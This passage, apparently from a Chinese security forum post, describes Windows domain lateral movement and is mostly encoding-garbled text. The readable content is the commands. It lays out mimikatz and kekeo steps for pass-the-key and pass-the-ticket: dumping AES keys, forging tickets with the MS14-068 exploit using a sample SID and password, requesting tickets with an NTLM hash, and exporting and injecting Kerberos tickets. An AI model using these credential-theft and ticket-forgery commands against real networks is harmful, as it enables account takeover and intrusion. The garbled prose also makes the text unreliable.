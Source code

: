 ## [](https://bbs.pediy.com/thread-268289.htm)3.6 PTK(pass the
key)å¨æ¨ªåç§»å¨å©ç¨

å©ç¨ekeys aes256  
Sekurlsa::ekeys è·åaes  
Sekurlsa::pth /user:Administrator /domain:test2
/aes256:6e09831ee88fb85c8a3f4a88dea70e2a1b18197b70d57a9eebad73b45137433d  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_GEK33J6XRJYTSGD.png)

# [](https://bbs.pediy.com/thread-268289.htm)åã PTTç¥¨æ®ä¼
éå¨æ¨ªåç§»å¨å©ç¨

PTT(pass the
ticket)ä¸åä½¿ç¨NTLMè¿è¡è®¤è¯ï¼èæ¯å©ç¨kerberosåè®®è¿è¡æ»å»,ç¸å¯¹äºPTHæ¥è¯´å
¶ä¸éè¦ç®¡çåæéï¼æä¸ç§å¸¸è§çæ»å»æ¹å¼ï¼MS14-068(æ¼æ´ç¼å·kb3011780)ãGolder
ticketãSilver ticketï¼å ¶ä¸­åä¸¤è æ¯å°è¿æ¥åæ³çç¥¨æ®æ³¨å ¥å
å­ä¸­å±äºæéç»´æï¼åé¢åï¼ã

## [](https://bbs.pediy.com/thread-268289.htm)4.1 å©ç¨ç¸å ³æ¼æ´

ç¬¬ä¸ç§ä½¿ç¨MS14-068 expï¼  
å ç¨whoami /useræ¥çå½åç¨æ·sid  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_F7AKAPEREP67SBG.png)  
Kerberos::purgeæklist purgeå æ¸ ç©ºå½åæºå¨ä¸­çææå­è¯ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_WD34AVBE6WJR6SB.png)  
å©ç¨MS14-068çæç¸åºå­è¯ï¼  
MS14-068.exe -u c@test.com -s S-1-5-21-2273191065-1635484360-3888421177-1105
-d 192.168.202.148 -p c@zxcvbnm123  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_53RYB4W3KMTTPVB.png)  
ä½¿ç¨mimikatzå°ç¥¨æ®æ³¨å ¥å å­ï¼  
Kerberos::ptc âTGT_c@test.com.ccacheâ  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_WPHCCTHUNWCW3Y5.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_JZWD87Q9QYNM24T.png)  
åç»­å©ç¨ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_KYP2E9FQWA4X93G.png)  
ç¬¬äºç§kekeoå©ç¨hashçæç¥¨æ®ï¼  
Kekeo âtgt::ask /user:c /domain:test.com
/ntlm:abe09320f41c250eadcc5bfba77a5e1aâ  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_YKGR495R7FDFSE3.png)  
åæ ·æ¸ æ¥ç¥¨æ®å¹¶å¯¼å ¥çæçç¥¨æ®ï¼  
kerberos::ptt TGT_c@TEST.COM_krbtgt~test.com@TEST.COM.kirbi  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_J8E66Y4F6MP3PFS.png)  
ç¬¬ä¸ç§å©ç¨mimikatzæ¶éæ¬å°çç¥¨æ®å¹¶éæ°å¯¼å
¥ï¼å¯¼åºéè¦ç®¡çåæéï¼ï¼  
Sekurlsa::tickets /export  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_XNQ9TWUADVCJZDP.png)  
ä½¿ç¨Kerberos::ptt è¿è¡å¯¼å ¥ç¥¨æ®ã
